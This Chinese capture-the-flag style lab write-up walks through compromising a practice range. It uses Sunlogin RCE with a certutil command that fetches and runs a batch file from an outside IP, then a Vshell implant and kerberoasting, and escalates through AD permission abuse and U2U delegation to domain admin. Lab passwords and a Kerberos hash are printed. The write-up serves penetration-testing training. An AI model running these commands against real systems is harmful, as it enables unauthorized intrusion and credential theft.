# 某会员专属靶场—Delegation-先知社区

> **来源**: https://xz.aliyun.com/news/18581  
> **文章ID**: 18581

---

靶场地址:<https://vip.bdziyi.com/bc/>



# 入口信息收集



```
C:\Users\35031\Desktop>fscanPlus_amd64 -h 10.10.0.10 -p 1-65535

  ______                   _____  _
 |  ____|                 |  __ \| |
 | |__ ___  ___ __ _ _ __ | |__) | |_   _ ___
 |  __/ __|/ __/ _  |  _ \|  ___/| | | | / __|
 | |  \__ \ (_| (_| | | | | |    | | |_| \__ \
 |_|  |___/\___\__,_|_| |_|_|    |_|\__,_|___/
                     fscan version: 1.8.4 TeamdArk5 v1.0
start infoscan
10.10.0.10:21 open
10.10.0.10:80 open
10.10.0.10:135 open
10.10.0.10:445 open
10.10.0.10:139 open
10.10.0.10:49155 open
10.10.0.10:49156 open
10.10.0.10:49162 open
10.10.0.10:49152 open
10.10.0.10:49154 open
10.10.0.10:49158 open
10.10.0.10:49153 open
[*] alive ports len is: 12
start vulscan
[*] WebTitle http://10.10.0.10         code:200 len:1260   title:文件上传
[*] NetInfo
[*]10.10.0.10
   [->]WIN7
   [->]192.168.1.22
   [->]10.10.0.10
[*] OsInfo 10.10.0.10   (Windows 7 Ultimate 7601 Service Pack 1)
[*] NetBios 10.10.0.10      WIN7                 Windows 7 Ultimate 7601 Service Pack 1
[+] ftp 10.10.0.10:21:anonymous
   [->]mht.txt
[*] WebTitle http://10.10.0.10:49162   code:200 len:46     title:None
[+] InfoScan http://10.10.0.10:49162   [向日葵]
已完成 12/12
[*] 扫描结束,耗时: 6m3.9944154s
```

## FTP-匿名登录

21端口有一个匿名登录的FTP，上去没看到什么东西



## 文件上传

80端口是个文件上传，猜测可能有waf



## 向日葵RCE

49162端口是向日葵，打一下sunlogin-client-for-windows\_11.0.0.33\_rce\_cnvd-2022-10270(向日葵RCE)

SunloginClient 启动后会在 40000 以上随机开放一个web端口，认证有问题可以直接通过cgi-bin/rpc?action=verify-haras获取cid 执行回显rce

<https://github.com/Mr-xn/sunlogin_rce>

```
xrkRce.exe -h 10.10.0.10  -t rce -p 49162 -c "whoami"
xrkRce.exe -h 10.10.0.10  -t rce -p 49162 -c "certutil.exe -urlcache -split -f http://121.41.119.182:7766/swt C:\Users\Public\run.bat"
xrkRce.exe -h 10.10.0.10  -t rce -p 49162 -c "C:\Users\Public\run.bat"
```

# Getshell

这里开3389端口遇到点问题，所以直接上线Vshell，但是直接上线的命令太长了，所以要分两次写。



上去看一下文件上传的源码

```
<?php
// 静默处理错误（不显示给用户）
error_reporting(0);
ini_set('display_errors', 0);

// 定义上传目录
$uploadDir = 'uploads/';

// 创建上传目录（如果不存在）
if (!file_exists($uploadDir)) {
    @mkdir($uploadDir, 0755, true);
}

// 检查是否有文件上传
if ($_SERVER['REQUEST_METHOD'] === 'POST' && isset($_FILES['file'])) {
    $file = $_FILES['file'];
    
    // 检查上传错误
    if ($file['error'] === UPLOAD_ERR_OK) {
        $fileName = basename($file['name']);
        $filePath = $uploadDir . $fileName;
        
        // 移动上传的文件到目标目录
        if (@move_uploaded_file($file['tmp_name'], $filePath)) {
            // 静默删除文件（不记录也不显示）
            @unlink($filePath);
        }
    }
    // 无论成功失败都不显示任何信息
    // 直接重定向回原页面（避免刷新重复提交）
    header('Location: ' . $_SERVER['PHP_SELF']);
    exit;
}
?>

<!DOCTYPE html>
<html lang="zh-CN">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>文件上传</title>
    <style>
        body {
            font-family: Arial, sans-serif;
            max-width: 600px;
            margin: 0 auto;
            padding: 20px;
            text-align: center;
        }
        .upload-form {
            border: 2px dashed #ccc;
            padding: 40px;
            margin: 40px 0;
        }
        button {
            background-color: #4CAF50;
            color: white;
            padding: 10px 20px;
            border: none;
            border-radius: 4px;
            cursor: pointer;
            font-size: 16px;
        }
        button:hover {
            background-color: #45a049;
        }
    </style>
</head>
<body>
    <h1>文件上传</h1>
    <p>选择文件并点击上传按钮</p>
    
    <div class="upload-form">
        <form action="" method="post" enctype="multipart/form-data">
            <input type="file" name="file" id="file" required>
            <br><br>
            <button type="submit">上传文件</button>
        </form>
    </div>
    
    <p><small>如传，真的上传了吗？</small></p>
</body>
</html>
```

尝试了条件竞争利用不了，感觉文件上传应该是迷惑用的。

# 内网信息收集

C:/Users/user/Documents路径下发现passwd.txt

```
Kim:p@ss1234 
```



发现是双网卡上传fscan做信息收集

发现还有一个机器192.168.1.200

```
C:\>fscanPlus_amd64.exe -h 192.168.1.200 -p 1-65535

  ______                   _____  _
 |  ____|                 |  __ \| |
 | |__ ___  ___ __ _ _ __ | |__) | |_   _ ___
 |  __/ __|/ __/ _  |  _ \|  ___/| | | | / __|
 | |  \__ \ (_| (_| | | | | |    | | |_| \__ \
 |_|  |___/\___\__,_|_| |_|_|    |_|\__,_|___/
                     fscan version: 1.8.4 TeamdArk5 v1.0
start infoscan
192.168.1.200:88 open
192.168.1.200:53 open
192.168.1.200:389 open
192.168.1.200:139 open
192.168.1.200:135 open
192.168.1.200:464 open
192.168.1.200:445 open
192.168.1.200:593 open
192.168.1.200:636 open
192.168.1.200:3268 open
192.168.1.200:3269 open
192.168.1.200:5985 open
192.168.1.200:9389 open
192.168.1.200:47001 open
192.168.1.200:49152 open
192.168.1.200:49154 open
192.168.1.200:49153 open
192.168.1.200:49156 open
192.168.1.200:49157 open
192.168.1.200:49158 open
192.168.1.200:49159 open
192.168.1.200:49166 open
192.168.1.200:49178 open
192.168.1.200:49175 open
192.168.1.200:49234 open
[*] alive ports len is: 25
start vulscan
[*] NetInfo
[*]192.168.1.200
   [->]AD
   [->]192.168.1.200
[*] OsInfo 192.168.1.200        (Windows Server 2012 R2 Standard 9600)
[*] NetBios 192.168.1.200   [+] DC:AD.sec.lab                    Windows Server 2012 R2 Standard 9600
[*] WebTitle http://192.168.1.200:47001 code:404 len:315    title:Not Found
[*] WebTitle http://192.168.1.200:5985 code:404 len:315    title:Not Found
已完成 25/25
[*] 扫描结束,耗时: 2m28.2624801s
```

## 搭建代理

直接用vshell开一个2000端口

## 横向移动

用之前的发现的账号密码，列出目标系统上的用户

```
┌──(root㉿kali-plus)-[~/Desktop]
└─# proxychains -q ./nxc smb 192.168.1.200 -u Kim -p 'p@ss1234' --users
SMB         192.168.1.200   445    AD               [*] Windows Server 2012 R2 Standard 9600 x64 (name:AD) (domain:sec.lab) (signing:True) (SMBv1:True)
SMB         192.168.1.200   445    AD               [+] sec.lab\Kim:p@ss1234 
SMB         192.168.1.200   445    AD               [*] Trying to dump local users with SAMRPC protocol
SMB         192.168.1.200   445    AD               [+] Enumerated domain user(s)
SMB         192.168.1.200   445    AD               sec.lab\Administrator                  管理计算机(域)的内置帐户
SMB         192.168.1.200   445    AD               sec.lab\Guest                          供来宾访问计算机或访问域的内置帐户
SMB         192.168.1.200   445    AD               sec.lab\krbtgt                         密钥发行中心服务帐户
SMB         192.168.1.200   445    AD               sec.lab\Tom                            
SMB         192.168.1.200   445    AD               sec.lab\Cook                           
SMB         192.168.1.200   445    AD               sec.lab\Kim                            
SMB         192.168.1.200   445    AD               sec.lab\Jim                            
SMB         192.168.1.200   445    AD               sec.lab\mht
```

使用evil-winrm连接

```
proxychains -q evil-winrm -i 192.168.1.200 -u kim -p p@ss1234
```

## AD信息收集

上传SharpHound.exe收集一下信息





### 域内权限滥用

KIM 与 JIM：KIM@SEC.LAB 对 JIM@SEC.LAB 有 GenericAll 权限 ，意味着 KIM 可对 JIM 执行多种操作（如读取、修改等 ）。

JIM、MHT、TOM 间：JIM@SEC.LAB 对 MHT@SEC.LAB 有 ForceChangePassword 权限（可强制 MHT 改密码 ）；MHT@SEC.LAB 对 TOM@SEC.LAB 有 GenericWrite 权限（能修改 TOM 部分属性 ），形成 JIM 影响 MHT、MHT 影响 TOM 的链式关系 。

```
net user Jim 1qaz@2WSX
proxychains -q evil-winrm -i 192.168.1.200 -u Jim -p 1qaz@2WSX
```

连接成功，修改mht用户的密码

```
Set-ADAccountPassword -Identity mht -NewPassword (ConvertTo-SecureString "1qaz@2WSX" -AsPlainText -Force) -Reset
proxychains -q ./nxc smb 192.168.1.200 -u mht -p '1qaz@2WSX' --users
```



密码修改成功。

利用合法域账号mht查询目标域sec.lab的 Active Directory，提取用户Tom的 Kerberos TGS 票据哈希，impacket-GetUserSPNs没成功，用targetedKerberoast.py成功了。

<https://github.com/ShutdownRepo/targetedKerberoast>

```
┌──(root㉿kali-plus)-[~/Desktop/targetedKerberoast-main]
└─# proxychains -q python3 targetedKerberoast.py -v -d sec.lab --dc-ip 192.168.1.200 -u mht -p '1qaz@2WSX'
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[VERBOSE] SPN added successfully for (Tom)
[+] Printing hash for (Tom)
$krb5tgs$23$*Tom$SEC.LAB$sec.lab/Tom*$307047c4affae5042e17ab682ce512b8$206ce6b3cd87995f7f9a25d883d5d48eae3bd03f23c40ab82db8543eddd45a80c7ff4d70e5b5492f7a9245283b42478cf37804fe05394acc8afe803e5c30ffa98c8cc90adc2bf07e100ef7f1e26b65aae0432da48694bca9f8913d0a943cc9171e0ccc80d2062ce07e731de1ba9276ff6d7b6314efef24b92ea5e8ca7521797c1f96286865f4e042603ae70a33985a14de3d5110628230da40b0013018d89959d88eadd5f4661f62c2add81342fc67e41dc2804efce78c0db8f7f66155b8d0ac32d5c3ee48a4b62597870881cc0dbb941f70f12d44651a9069cc7e8a387081e258fae513149848c106f1159ef3d953d9c50d60c25863ad88c73812b4ef34d9c37bf60c0a4108424ed4ce11108ba32dec7cc5281ed0dce9dd4e1797683fe003e40a754928d5b6a82cc0975f148d8992444fe268e4f2902cee8000efa6907d8c83d6148b547469244d4681f9d19b177bcd106064d3c6beda8e407bbf49ebf010ca33451fa368eef1560f7db21524bc5cfcad5f43ba7f4303cd2c4705ec1692df8d34ebd24b62852a03a3d580b681f01974d1298f312f432364ceb619be979c96dd1b3f968b2f2e2b4c6557fdab94f2215f0a54a3a69b79467b63e17e089c3e9574cf3177d6d2a0dfb4b8b701d43ccedd24534dfc48a68204bc0ac35f1061114d1af18234d9452b9c1a5fb570433ca4178d96ac67140aeff925d0efe445d19f402205f020e1175754a10ce4b2c13630e55df36e57e1e77bd18786a759581a95314829e911904542f504085d4fa5140d6400a44e21c1dee32d9ece8801db28794481dfd69a46885665e2442959366ea104d55f039df76b0592581bd887201f6057ea0b54b114ed6186a0035164ec77e1d6362a83028f7f0ad1351b7db8328b6cc6cddea2054db17648f350a8edb364e24fbcd826a4acf005f9b689c051b83cceeab67db0eb1d01269e7025ca61e9aeb82b67f3b82f1a320c19d4a4b9aa2151036b3922a6e182c994a47c54baf6322f59cacb76273f6931e02a55ac5bd9927f91f23ba57c7b820efde6dd448193b48f86d0b43ca85acd4295885bc9491fe8265c85438e065fddd2d1ab0218fb256c89103b378d2da8da3491021745fc5ce51de37b55205fbc183787a0d26591aa387da00c0d8021256e0634bcd840aa9f7b2fbe35898a34093f09f409edc65f88a9290422caa7b7dbd63d8eb86a2a51cec250ce76731d22e58189de79402ec522a09fe3a20bdcc3d01e7060150cda3c2640a8e9cf3b0361165bb61361bf87deff74efc1f86ea412955eadbd1019169948ead17fa2048cf0c375d3719557f56f067c45b88dd831e54b83c128405876dec9
[VERBOSE] SPN removed successfully for (Tom)
```

爆破密码

```
hashcat -m 13100 -a 0 1.txt rockyou.txt --force
```



```
proxychains -q evil-winrm -i 192.168.1.200 -u Tom -p estrella
```

连接成功



获取 Tom 的 TGT 票据

```
proxychains -q python3 getTGT.py -hashes :a23d91ad69cb32adbc0195a25a54ba54 sec.lab/Tom -dc-ip 192.168.1.200
```

解析 TGT 票据

```
┌──(root㉿kali-plus)-[~/Desktop/impacket-0.12.0/examples]
└─# python3 describeTicket.py Tom.ccache
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Number of credentials in cache: 1
[*] Parsing credential[0]:
[*] Ticket Session Key            : 6c56301507d2b037df0dd57c133b19de
[*] User Name                     : Tom
[*] User Realm                    : SEC.LAB
[*] Service Name                  : krbtgt/SEC.LAB
[*] Service Realm                 : SEC.LAB
[*] Start Time                    : 27/07/2025 23:53:14 PM
[*] End Time                      : 28/07/2025 09:53:14 AM
[*] RenewTill                     : 28/07/2025 23:58:11 PM
[*] Flags                         : (0x50e10000) forwardable, proxiable, renewable, initial, pre_authent, enc_pa_rep
[*] KeyType                       : rc4_hmac
[*] Base64(key)                   : bFYwFQfSsDffDdV8EzsZ3g==
[*] Decoding unencrypted data in credential[0]['ticket']:
[*]   Service Name                : krbtgt/SEC.LAB
[*]   Service Realm               : SEC.LAB
[*]   Encryption type             : aes256_cts_hmac_sha1_96 (etype 18)
[-] Could not find the correct encryption key! Ticket is encrypted with aes256_cts_hmac_sha1_96 (etype 18), but no keys/creds were supplied
```

/etc/hosts添加域名和IP映射

```
192.168.1.200   sec.lab
192.168.1.200   ad.sec.lab
```

修改 Tom 的密码

```
proxychains4 -q python3 changepasswd.py -newhashes :6c56301507d2b037df0dd57c133b19de sec.lab/Tom:estrella@ad.sec.lab
```

配置票据缓存环境变量

```
export KRB5CCNAME=Tom.ccache
```

利用 U2U 委派获取管理员模拟票据

```
proxychains -q impacket-getST -u2u -impersonate "Administrator" -spn "host/ad.sec.lab" -k -no-pass "sec.lab"/Tom -dc-ip 192.168.1.200
```

使用管理员模拟票据执行远程命令

```
export KRB5CCNAME=Administrator@host_ad.sec.lab@SEC.LAB.ccache
proxychains -q impacket-wmiexec -k -no-pass ad.sec.lab
```


